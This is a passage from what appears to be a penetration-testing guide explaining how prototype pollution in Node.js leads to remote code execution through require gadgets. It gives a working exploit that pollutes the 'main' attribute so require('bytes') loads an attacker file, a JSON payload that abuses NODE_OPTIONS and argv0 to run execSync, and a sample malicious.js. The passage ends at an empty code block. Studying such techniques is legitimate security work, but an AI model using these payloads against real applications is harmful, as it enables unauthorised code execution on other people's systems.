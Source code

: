 ```
- Find a **`.js` file inside the system** that when **required** will **execute something using `child_process`**
  - If you can upload files to the platform you are attacking you might upload a file like that
- Pollute the paths to **force the require load of the `.js` file** that will execute something with child_process
- **Pollute the environ/cmdline** to execute arbitrary code when a child_process execution function is called (see the initial techniques)

#### Absolute require

If the performed require is **absolute** (`require("bytes")`) and the **package doesn't contain main** in the `package.json` file, you can **pollute the `main` attribute** and make the **require execute a different file**.

**exploit**

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Install package bytes (it doesn't have a main in package.json)
// npm install bytes

// Manual Pollution
b = {}
b.__proto__.main = "/tmp/malicious.js"

// Trigger gadget
var proc = require("bytes")
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"main": "/tmp/malicious.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_absolute\\").toString())//"}}'
)

clone(USERINPUT)

var proc = require("bytes")
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
```

**malicious.js**

```javascript
const { fork } = require("child_process")
console.log("Hellooo from malicious")
fork("anything")
```
```


#### Relative require - 1

If a **relative path** is loaded instead of an absolute path, you can make node **load a different path**:

**exploit**

```javascript
```